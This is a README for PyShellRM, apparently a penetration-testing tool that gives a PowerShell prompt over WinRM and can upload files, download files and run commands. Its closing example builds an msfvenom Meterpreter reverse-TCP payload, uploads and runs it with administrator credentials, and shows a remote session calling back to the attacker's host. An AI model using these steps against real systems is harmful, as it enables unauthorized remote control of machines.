 # PyShellRM

## Configuration

All configuration options are defined in the Protocol object.

1. Server: The WinRM webservice endpoint
    * `10.10.10.1` or `server.com`

2. Port: Transport type
    *  \[`ntlm`, `kerberos`, `credssp`]

3. Path: Wsman path
    * `weird/path/to/wsman`

3. Username: The remote user's username
    *  `domain\user`

4. Password: The remote user's password
    *  `hunter2`

5. SSL: Whether or not the request is HTTP or HTTPS
    *  \[`true`, `false`]

```Yaml
server:
    server: 10.10.10.149
    port: 5985
    auth: ntlm
    username: Administrator
    password: hunter2
    ssl: false
```

## Commands

1. hosts
2. test
3. test-all
4. connect
5. set
6. unset
7. upload
8. download
9. run
10. exit/quit

### Hosts

Lists the available hosts imported from the config.yml file.

Example:

```
pyshellrm:~$ hosts
server_conn_pass server_conn_fail
```

### Test

Test authenticating to the remote server.

Example:

```
pyshellrm:~$ test server_conn_pass
[+] Successfully connected to server_conn_pass with Administrator:hunter2
```

Because we're using Riposte, we can use the -c flag to run the `test` command from the cli:

```
$ python pyshellrm.py -c 'test server_conn_pass' config.yml
[+] Successfully connected to server_conn_pass with Administrator:hunter2
```

### Test-All

Test authenticating to all remote servers.

Example:

```
pyshellrm:~$ test-all
[+] Successfully connected to server_conn_pass with Administrator:hunter2
[-] Failed to auth with server_conn_fail using Administrator:hunter3
```

Because we're using Riposte, we can use the -c flag to run the `test-all` command from the cli:

```
$ python pyshellrm.py -c 'test-all' config.yml
[+] Successfully connected to server_conn_pass with Administrator:hunter2
[-] Failed to auth with server_conn_fail using Administrator:hunter3
```

### Connect

Connect uses the defined Protocol object to attempt a WinRM connection.

Example:

```
pyshellrm:~$ connect server
[+] Successfully connected to server with Administrator:hunter2
```

### Set

Sets the current server connection.

Example:

```
pyshellrm:~$ set server_conn_pass
```

### Unset

Unsets the current server connection.

Example:

```
pyshellrm:~$ unset
```

### Upload

Uploads a file from `local_path` to `remote_path`.

Example:

```
pyshellrm:~$ upload "/local/path/to/shell.exe" "C:\\Users\\Administrator\\Documents\\shell.exe"
pyshellrm:~$ run ls
[+]

    Directory: C:\Users\Administrator\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/13/2019  10:10 AM          73802 shell.exe
```

### Download

Downloads a file from `remote_path` to `local_path`.

pyshellrm:~$ download "C:\\Users\\Administrator\\Documents\\doc.xlsx" "/local/path/to/doc.xlsx"

### Run

Runs commands in a Powershell prompt. Press ctrl+c to exit.

Example:

```
pyshellrm:~$ run ls
[+]

    Directory: C:\Users\Administrator\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/13/2019  10:10 AM          73802 shell.exe
```

### Exit/Quit

Exits PyShellRM.

## Example

First we'll generate an msfvenom payload.

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=9999 -f exe > shell.exe
```

Next we'll configure our Protocol.

```Yaml
server:
    server: 10.10.10.1
    port: 5985
    auth: ntlm
    username: Administrator
    password: hunter2
    ssl: false
```

Finally, we can launch the PyShellRM console and upload our reverse shell.

```
pyshellrm:~$ connect server
[+] Successfully connected to server with Administrator:hunter2
pyshellrm:~$ set server
pyshellrm:~$ upload shell.exe "C:\\Users\\Administrator\\Documents\\shell.exe"
pyshellrm:~$ run ls
[+]

    Directory: C:\Users\Administrator\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/13/2019  10:10 AM          73802 shell.exe

pyshellrm:~$ run "cmd.exe /c \"shell.exe\""
```

Callback received!

```
payload => windows/meterpreter/reverse_tcp
lhost => 10.10.14.2
lport => 9999
[*] Started reverse TCP handler on 10.10.14.2:9999 
[*] Sending stage (179779 bytes) to 10.10.10.1
[*] Meterpreter session 1 opened (10.10.14.2:9999 -> 10.10.10.1:49692) at 1970-01-01 00:00:00 0000

meterpreter > getuid
Server username: REMOTESERVER\Administrator
```
